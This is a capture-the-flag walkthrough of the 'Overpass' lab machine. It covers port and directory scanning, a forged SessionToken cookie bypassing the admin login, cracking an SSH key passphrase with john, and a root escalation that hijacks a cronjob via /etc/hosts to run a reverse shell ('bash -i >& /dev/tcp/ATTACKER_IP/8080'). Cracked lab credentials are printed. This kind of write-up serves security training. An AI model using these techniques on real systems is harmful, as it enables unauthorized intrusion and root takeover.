 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  | 10.10.138.135 |  |

---

First, I ran a basic `nmap` scan to enumerate the services that are running on the target machine.

```
sudo nmap -sC -sV -vv 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports on the machine: **SSH (22)** and **HTTP (80)**.

Navigating to the HTTP website, we can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Looks like the home page for a password manager called 'Overpass'.

Before carrying out our happy-path enumeration, let's use `gobuster` to see if we can enumerate any hidden directories:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in the scan.

With Gobuster up and running, we can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? Let's keep this in mind for now!

Next, on the 'Downloads' page, there are some files that we can download. Interestingly, they actually provide the source code for their password manager!

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let me check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, Gobuster managed to find an admininistrator login page:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated by Gobuster. 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint '/api/login'. The response is then received and the data inside is stored in a variable 'statusOrCookie'. There is then a check to verify whether the user is authenticated or not. However, looking at the else statement which authenticates the user, if we simply create a **'SessionToken'** cookie and set any random value,  we will be redirected to the /admin page!

Let's test this out using the browser's developer tools. In there, I created a cookie called SessionToken and assigned a value to it:

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that we have gained access into the administrator panel:

![screenshot9](../assets/images/overpass/screenshot9.png)

We have an RSA private key, which will probably be used to log into the SSH server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need a passphrase for the RSA key. We can try cracking the passphrase using `john`, which is a powerful hash cracking tool. 

First, we convert the key into a format that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Next, we use `john` on the output file from the previous command:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice, `john` manages to crack james's private key passphrase:

> james13 

With that, we can log into the SSH server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from james' home directory.

---

Next, let's find a way to escalate our privileges. 

First, I noticed that there was a **todo.txt** file located in james' home directory:

![screenshot13](../assets/images/overpass/screenshot13.png)

It seems that james' password is stored in the password manager (Overpass) that he implemented. I used the `find` command to located the Overpass binary on the target machine:

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by using the 'Retrieve All Passwords' option:

![screenshot14](../assets/images/overpass/screenshot14.png)

james' password is: 

> saydrawnlyingpicture

Next, let's see what **sudo privileges** james has on this machine:

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. We'll need to find another privesc method.

To automate the privesc enumeration, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to find an interesting cronjob:

![screenshot16](../assets/images/overpass/screenshot16.png)

---

**Understanding cronjobs:**

Below is an example cronjob:

![screenshot17](../assets/images/overpass/screenshot17.png)

The `*` symbols dictate the frequency of the cronjob. The name placed after the symbols refers to the user that will run the job. Finally, the command to be run will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will run every minute (as shown by 5 `*` symbols)

---

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a 'buildscript.sh' file from overpass.thm/downloads/src  every minute and executes it. The important thing to note is that this command is executed by the root user. 

We can exploit this vulnerability by creating our own buildscript.sh which sets up a reverse shell that connects back to our host machine. Since our buildscript.sh is executed by root, the reverse shell that we obtain will be a root shell as well.

Let's set this up!

First, I needed to know what IP address **'overpass.thm'** points to. Looking at the /etc/hosts file on the target machine, we can actually see that 'overpass.thm' points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to 'overpass.thm', the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called 'buildscript.sh' with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local machine.

I placed this script inside a /downloads/src directory within my machine. I then started up a Simple HTTP Server on port 80 using Python in this directory.

Finally, I set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

Hence, once a minute passes, the target machine will curl my created buildscript.sh from my local machine and execute it as root, setting up a reverse shell.

After a minute has passed, we can see that my buildscript.sh was indeed downloaded by the target machine:

![screenshot20](../assets/images/overpass/screenshot20.png)

It was then executed, successfully opening the reverse shell:

![screenshot21](../assets/images/overpass/screenshot21.png)

With that, we've gained access to the target machine as root.

We can then obtain the root flag found in /root.

